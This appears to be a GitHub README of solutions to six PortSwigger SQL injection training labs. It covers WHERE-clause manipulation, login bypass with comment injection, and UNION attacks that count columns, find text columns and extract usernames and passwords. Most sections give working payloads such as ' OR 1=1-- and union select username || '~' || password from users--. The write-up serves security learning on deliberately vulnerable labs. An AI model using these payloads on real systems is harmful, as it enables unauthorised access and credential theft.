 ## Summary
- [Lab1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/In-Band%20SQL%20Injection#lab1-sql-injection-vulnerability-in-where-clause-allowing-retrieval-of-hidden-data)
- [Lab2: SQL injection vulnerability allowing login bypass](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/In-Band%20SQL%20Injection#lab2-sql-injection-vulnerability-allowing-login-bypass)
- [SQL injection UNION attacks](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/In-Band%20SQL%20Injection/README.md#sql-injection-union-attacks)
	- [Lab3: SQL injection UNION attack, determining the number of columns returned by the query](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/In-Band%20SQL%20Injection/README.md#lab3-sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query)
	- [Lab4: SQL injection UNION attack, finding a column containing text](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/In-Band%20SQL%20Injection/README.md#lab4-sql-injection-union-attack-finding-a-column-containing-text)
	- [Lab5: SQL injection UNION attack, retrieving data from other tables](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/In-Band%20SQL%20Injection/README.md#lab5-sql-injection-union-attack-retrieving-data-from-other-tables)
	- [Lab6: SQL injection UNION attack, retrieving multiple values in a single column](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/In-Band%20SQL%20Injection/README.md#lab6-sql-injection-union-attack-retrieving-multiple-values-in-a-single-column)

## `Notice:` I suggest being familiar with SQL before reading the labs solutions.

### Lab1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
- In the first, If we set this specific character `'`, the server will reply with `Internal Server Error`.
- Because when we will set it, the query in the backend will be like that :

```SQL
SELECT * FROM products WHERE category = ''' AND released = 1
```
- But we can use some tricks to inject this parameter.

```
category=any_category' OR 1=1--
category=' OR 1=1--
```
- Here, we terminated the single quotes of category parameter.
- And we used an `OR` logical operator and the equation of `1=1`, and this equation will always be true, so now we don’t have to know category as whatever be the category if we set or not.
- After that, we added the comment sequence `--` causes the remainder of the query to be ignored.
- So the query will show all category items and will be like that:

```SQL
SELECT * FROM products WHERE category = 'any_category' OR 1=1--' AND released = 1
```
-----------------------------------------------------------------------

### Lab2: SQL injection vulnerability allowing login bypass
- Many applications that implement a forms-based login function use a database to store user credentials and perform a simple SQL query to validate each login attempt like this query:

```SQL
SELECT * FROM users WHERE username = 'admin' AND password = 'admin'
```
- Try injecting this payload.

```
username=administrator'--
```
- Again, When we set `--`, it will ignore the remainder of the query and the password check is bypassed.
- It is called `subverting or altering application logic`.
- The query will be like that after injecting in the backend:

```SQL
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```
##### Take note for another solution:
- Suppose that the attacker does not know the administrator’s username. In most applications, the first account in the database is an administrative user, because this account normally is created manually and then is used to generate all other accounts via the application.
- So we will log in as the first user in the database who is the administrator by supplying this as input to the username parameter:

```
username=' OR 1=1--
```
- The query will be like that and will let you log in as the first user who is the `administrator` and also the password check is bypassed.

```SQL
SELECT * FROM users WHERE username = '' OR 1=1--' AND password = ''
```

-----------------------------------------------------------------------
## SQL injection UNION attacks
### Lab3: SQL injection UNION attack, determining the number of columns returned by the query
>  `Note:` To combine two `select` statements with the `UNION`  operator:
>  1. We must return the same number of columns in the 2 `select` statements.
>  2. The 2 queries result must have the same or compatible data types, appearing in the same order.

- So one of the most common ways to detect the number of columns in the select statement is using the `NULL` values. 
- There is another way with using the `order by clause`.
- But we will use the first way because of the `NULL` value can be converted to any data type.
- Here, when I tried to test the number of columns, I got an error: `Internal server error`.
 
```
category='union select null--
category='union select null,null--
```
 - But when I tried three values of `NULL`, the injected query succeeded.
 
```
category='union select null,null,null--
```

-----------------------------------------------------------------------

### Lab4: SQL injection UNION attack, finding a column containing text

- As usual in the first, I tried to identify a number of columns, and I detected there are three columns combined in the query when I injected the `UNION` operator.

```
category='union select null,null,null--
```
- The second step I want to identify the data type of the columns, but I will focus on the string data because the important and interesting data will be in the string columns.
- So I tried to set string data in the first column, and when it will be combined with the first column in the query of the application it will return an error if the results are not compatible with the same data types.
- Here, I got an error because the first column is not from the string data type.

```
' union select 'VlA8XYl',null,null--
```
- But on the second try, the payload is interpreted successfully, and the second column returned data from the `string` data type.  

```
' union select null,'VlA8XYl',null--
```

-----------------------------------------------------------------------

### Lab5: SQL injection UNION attack, retrieving data from other tables
1. Testing number of columns:

```
category=' union select null,null--
```
2. Testing which column holds data with `string` data type:

```
category=' union select 'hello',null--
```
- **In real-world scenarios, you must know the type and version of the database software, and the names of the tables and columns containing the data you want to access, in the next labs we will know how to know that, but in this lab description, we know the name of the table and the columns which we will retrieve.**
3. And the last phase is retrieving the data from the `user` table:

```
category=' union select username, password from users--
```
- Here we can see the results from my injected query, and now we can log in as the `administrator` user.

![lab5.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab5.png)

-----------------------------------------------------------------------
### Lab6: SQL injection UNION attack, retrieving multiple values in a single column
- We will try to detect the number of columns and data type of each column as usual.

```
1. category=' union select null,null--
2. category=' union select null,'hello'--
```
- I detected the second column is a `string`, but how we can retrieve the username and password when we have just one column receive string data!!
- And if we tried to retrieve the data with this query it will make an error:
```
category=' union select username, password from users--
```
- Because the first column is not string data type.
- The solution for this problem is combining the results of the 2 columns in one column by concatenating them with `||`.
- You can use `||` to concatenate strings in the oracle database, but it is different in the other database types.
- Don't worry, in the next labs you will know how to detect the type of database to identify your syntax and the methodology to deal with it.
```
category=' union select null, username ||'~'|| password from users--
```
- `Note:` You can set any specific character to separate columns other than `~`.

![lab6.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab6.png)

- Or you can make something like that by concatenating😃
```
category=' union select null, 'User: '|| username ||' and password: '|| password from users--
```

![lab6_another_form.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab6_another_form.png)
